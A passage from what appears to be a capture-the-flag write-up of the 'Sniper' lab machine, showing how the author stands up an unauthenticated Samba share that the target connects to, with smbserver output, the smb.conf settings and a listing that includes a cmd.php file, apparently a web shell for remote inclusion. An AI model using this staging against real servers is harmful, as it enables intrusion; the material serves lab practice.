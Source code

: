 [![Wireshark SMB failure](https://0xdfimages.gitlab.io/img/1570730835112.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/1570730835112.png)

That demonstrates that the server is willing to contact me, but I couldn’t get the authentication working (if you know how I can configure my SMB share to remove all auth, let me know).

On Kali, I tried `smbserver.py`, and again, Sniper connected to me, but failed to authenticate:

```

[*] Incoming connection (10.10.10.151,57159)
[*] AUTHENTICATE_MESSAGE (\,SNIPER)
[*] User \SNIPER authenticated successfully
[*] :::00::4141414141414141
[*] Handle: [Errno 104] Connection reset by peer
[*] Closing down connection (10.10.10.151,57159)
[*] Remaining connections []

```

However, with Samba, I got it to work. I set `/etc/samba/smb.conf` to:

```

[SHARE]
path = /srv/samba/
browseable = yes
read only = no
create mask = 777
guest ok = yes
force user = nobody
force group = nogroup

```

The started the service:

```

root@kali# service smbd restart
root@kali# service nmbd restart

```

Permissions are important here. It’s important that the Samba process (running as nobody) can read the file:

```

root@kali# find srv/ -ls
  2359297      4 drwxr-xr-x   4 root     root         4096 srv/
  2359299      4 drwxrwxrwx   2 nobody   nogroup      4096 srv/samba
  2359300      4 -rwxrwxrwx   1 nobody   nogroup        35 srv/samba/cmd.php
  2359301     48 -rwxrwxrwx   1 root     root        45272 srv/samba/test.txt

```
